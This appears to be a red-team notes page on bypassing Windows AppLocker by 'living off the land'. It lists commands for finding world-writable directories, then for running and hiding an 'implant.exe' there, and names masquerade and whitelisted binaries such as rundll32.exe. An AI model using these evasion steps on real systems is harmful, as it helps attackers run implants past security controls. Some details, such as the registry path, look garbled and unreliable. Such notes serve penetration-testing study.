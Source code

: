 # Living off the Land

## 01 - Detect

### 1.1 - Applocker EXE Bypass

#### 1.1.1 - Command Prompt

```
C:\> icacls.exe C:\Windows\Task
```

#### 1.1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrvV2\Exe
```

#### 1.1.3 - GPEdit

Local Computer Policy > User Configuration > Administrative Templates > System

### 1.2 - Applocker DLL Bypass

```
C:\> accesschk.exe "<username>" C:\Windows -wus
```

## 02 - Exploit

### 2.1 - World Writable Directories

```
C:\> C:\Windows\Task\implant.exe
```

### 2.2 - Create Directory

```
C:\Users\Administrator\Desktop> md Datasheet

C:\Users\Administrator\Desktop> move implant.exe Datasheet
```

### 2.3 - Masquerade Programs

```
msedge.exe
explorer.exe
```

### 2.4 - Whitelisted Executable Programs

```
rundll32.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/LOLBAS/Code Execution/HTA]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

- [[Scriptlet]]

- [[Windows Scripting Host]]

- [[WMI]]

- [[ForFiles]]

- [[DLL Execution]]

### Red Team Notes

- [Red Team Notes: Application Whitelisting Bypass with WMIC and XSL](https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl)

### Pentestlab

- [Pentestlab Blog: AppLocker Bypass - CMSTP](https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/)